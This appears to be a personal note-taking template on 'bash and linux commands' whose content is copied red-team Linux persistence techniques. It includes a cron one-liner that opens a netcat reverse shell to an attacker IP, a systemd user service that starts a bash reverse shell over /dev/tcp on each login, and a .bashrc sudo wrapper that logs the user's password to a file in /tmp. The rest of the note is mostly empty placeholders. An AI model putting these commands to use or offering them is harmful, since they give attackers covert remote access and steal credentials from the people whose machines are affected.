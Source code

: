```yaml
---
creation date: October 22nd 2023
last modified date: October 22nd 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[bash and linux commands]]  
___

## Description:  


## Description:  

https://github.com/RoseSecurity/Red-Teaming-TTPs/blob/main/Linux.md


### One Liner to Add Persistence on a Box via Cron

```
echo "* * * * * /bin/nc <attacker IP> 1234 -e /bin/bash" > cron && crontab cron
```

On the attack platform: `nc -lvp 1234`

### Systemd User Level Persistence
Place a service file in `~/.config/systemd/user/`

```
vim ~/.config/systemd/user/persistence.service
```

Sample file:

```
[Unit]
Description=Reverse shell[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/9999 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:

```
systemctl --user enable persistence.service
systemctl --user start persistence.service
```

On the next user login systemd will happily start a reverse shell.

### Backdooring Sudo

Add to `.bashrc`

```shell
function sudo() {
    realsudo="$(which sudo)"
    read -s -p "[sudo] password for $USER: " inputPasswd
    printf "\n"; printf '%s\n' "$USER : $inputPasswd\n" >> /tmp/log13999292.log
    $realsudo -S <<< "$inputPasswd" -u root bash -c "exit" > /dev/null 2>&1
    $realsudo "${@:1}"
```



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: October 22nd 2023 (12:41 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
